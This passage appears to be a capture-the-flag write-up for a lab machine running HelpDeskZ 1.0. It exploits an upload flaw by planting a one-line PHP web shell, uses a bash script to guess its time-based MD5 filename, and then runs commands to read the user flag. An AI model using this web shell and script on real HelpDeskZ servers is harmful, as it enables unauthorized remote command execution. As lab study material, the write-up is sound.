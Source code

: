 #### 2.1. Abusing the file upload

1) call to `verifyAttachment()` happens after `move_uploaded_file`
```
https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/controllers/submit_ticket_controller.php#L144
```
Note: `$filename = md5($_FILES['attachment']['name'].time()).".".$ext;`


2) Upload PHP file

URL: `http://10.10.10.121/support/?v=submit_ticket&action=displayForm`
Expected error: `File is not allowed."`
File: `x.php`
```
<?=`$_GET[1]`?>
```


3) Script to guess the uploaded PHP

```bash
#!/usr/bin/env bash

url='http://10.10.10.121/support/uploads/tickets'
filename='x.php'

date=`curl -qsSL http://10.10.10.121:3000 -D - \
-o /dev/null | grep Date | sed 's/Date: //g'`
now=`date -d "$date" +%s`
time=$(($now-60))

for i in `seq 60`
do
  time=$(($time+1))
  f=`echo -n "$filename$time" | md5sum | cut -c -32`".php"; script=$url/$f
  code=`curl -sSL -w "%{http_code}" "$script" -o /dev/null --connect-timeout 2`
  [[ $code -eq 200 ]] && echo "$script"
done
```

4) Quickly run the script above within 60s after upload
```
# bash find_uploaded.sh
http://10.10.10.121/support/uploads/tickets/42262db64dd5641162b05a3775699b12.php
```


#### 2.2. User flag

```
# http http://10.10.10.121/support/uploads/tickets/42262db64dd5641162b05a3775699b12.php?1=id -b
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
# http http://10.10.10.121/support/uploads/tickets/42262db64dd5641162b05a3775699b12.php?1="cat /home/help/user.txt" -b
bb8a7b36bdce0c61ccebaa173ef946af
```
